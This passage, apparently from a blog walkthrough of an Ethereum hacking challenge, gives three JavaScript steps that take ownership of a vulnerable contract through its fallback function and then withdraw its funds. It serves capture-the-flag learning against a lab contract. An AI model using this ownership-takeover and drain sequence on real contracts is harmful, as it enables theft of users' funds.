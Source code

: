 ![Scarface gives advice](/images/2018-04-28-How-To-Hack-Ethereum-Contracts-The-Easy-Way/scarface.jpg)

1. We send a contribution using the `contribute()` method chained with `sendTransaction()` so that we can specify the amount.
```javascript
await contract.contribute.sendTransaction({value: 1});
```
Methods that are payable are called with a [`sendTransaction()` method](https://github.com/ethereum/wiki/wiki/JavaScript-API#web3ethsendtransaction).
2. Now that our `contributions[msg.sender]` is greater than zero, we can invoke the fallback method by sending the contract an amount:
```javascript
await contract.sendTransaction({value: 1});
```
Now we are the owner of the contract. We can check to make sure with:
```javascript
(await contract.owner() === player) // true
```
3. Now we can withdraw the money!
```javascript
await contract.withdraw()
```